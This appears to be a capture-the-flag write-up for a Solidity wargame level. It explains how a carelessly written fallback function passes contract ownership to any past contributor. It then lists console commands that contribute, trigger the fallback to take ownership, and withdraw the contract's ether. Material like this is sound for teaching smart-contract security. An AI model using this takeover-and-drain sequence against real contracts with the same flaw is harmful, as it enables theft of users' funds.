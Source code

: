 This level is a simple way to display that fallback functions can have unintended consequences if implemented thoughtlessly.

## The Fallback Function

A fallback function is a solidity function that is called when no other function in the smart contract matches the function name called.
It allows the contract to receive ether if it is marked payable.
More info here --> https://www.geeksforgeeks.org/solidity-fall-back-function/

## Explanation

The fallback function in this level is coded to change ownership of the contract if an address has contributed and that address sends a transaction with any amount of ether to the contract. 

It is also coded to change ownership if a contributor's balance surpasses that of the current owner(which is initially set at 1000 ether). To make matters worse, even if you wanted to contribute over 1000 ether, you'd have to do it in increments of less than .001 ether because of the 'require' statement:

```bash 
require(msg.value < 0.001 ether); 
```


## Solution

To solve this level you can either expend the effort to get 1001 ether, or:

1) Contribute to the contract
```bash 
    contract.contribute({ value: toWei(".0001", "ether"), from: player }) 
```
2) Send a transaction that triggers fallback function
```bash
    sendTransaction({ to: contract.address, value: toWei(".001", "ether"), from: player })
```
3) Withdraw from contract 
```bash
    contract.withdraw()
```

**To verify ownership after step 2 you can call 
```bash
    await contract.owner()
```